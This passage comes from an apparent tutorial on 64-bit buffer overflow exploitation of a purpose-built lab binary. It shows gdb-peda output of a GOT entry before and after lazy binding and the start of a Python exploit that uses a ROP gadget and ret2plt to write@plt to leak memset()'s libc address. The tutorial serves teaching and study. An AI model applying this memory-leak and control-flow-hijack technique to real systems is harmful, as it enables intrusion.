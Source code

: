 Hit "c" to continue execution. At this point, it's waiting for us to connect, so we'll fire up nc and connect to localhost on port 2323:

```
# nc localhost 2323
```

Now check gdb, and it will have hit the breakpoint, right before memset() is called.

```
   0x4006c3 <vuln+28>:  mov    rdi,rax
=> 0x4006c6 <vuln+31>:  call   0x400570 <memset@plt>
   0x4006cb <vuln+36>:  mov    edi,0x4007e4
```

Since this is the first time memset() is being called, we expect that its GOT entry points to the slow lookup function. 

```
gdb-peda$ x/gx 0x601030
0x601030 <memset@got.plt>:      0x0000000000400576
gdb-peda$ x/5i 0x0000000000400576
   0x400576 <memset@plt+6>:     push   0x3
   0x40057b <memset@plt+11>:    jmp    0x400530
   0x400580 <read@plt>: jmp    QWORD PTR [rip+0x200ab2]        # 0x601038 <read@got.plt>
   0x400586 <read@plt+6>:       push   0x4
   0x40058b <read@plt+11>:      jmp    0x400530
```

Step over the call to memset() so that it executes, and examine its GOT entry again. This time it points to memset()'s address:

```
gdb-peda$ x/gx 0x601030
0x601030 <memset@got.plt>:      0x00007f86f37335c0
gdb-peda$ x/5i 0x00007f86f37335c0
   0x7f86f37335c0 <memset>:     movd   xmm8,esi
   0x7f86f37335c5 <memset+5>:   mov    rax,rdi
   0x7f86f37335c8 <memset+8>:   punpcklbw xmm8,xmm8
   0x7f86f37335cd <memset+13>:  punpcklwd xmm8,xmm8
   0x7f86f37335d2 <memset+18>:  pshufd xmm8,xmm8,0x0
```

If we can write memset()'s GOT entry back to us, we'll receive it's address of 0x00007f86f37335c0. We can do that by overwriting vuln()'s saved return pointer to setup a ret2plt; in this case, write@plt. Since we're exploiting a 64-bit binary, we need to populate the RDI, RSI, and RDX registers with the arguments for write(). So we need to return to a ROP gadget that sets up these registers, and then we can return to write@plt.

I've created a helper function in the binary that contains a gadget that will pop three values off the stack into RDI, RSI, and RDX. If we disassemble helper(), we'll see that the gadget starts at 0x4006a1. Here's the start of our exploit:

```python
#!/usr/bin/env python

from socket import *
from struct import *

write_plt  = 0x400540            # address of write@plt
memset_got = 0x601030            # memset()'s GOT entry
pop3ret    = 0x4006a1            # gadget to pop rdi; pop rsi; pop rdx; ret

buf = ""
buf += "A"*168                  # padding to RIP's offset
buf += pack("<Q", pop3ret)      # pop args into registers
buf += pack("<Q", 0x1)          # stdout
buf += pack("<Q", memset_got)   # address to read from
buf += pack("<Q", 0x8)          # number of bytes to write to stdout
buf += pack("<Q", write_plt)    # return to write@plt
```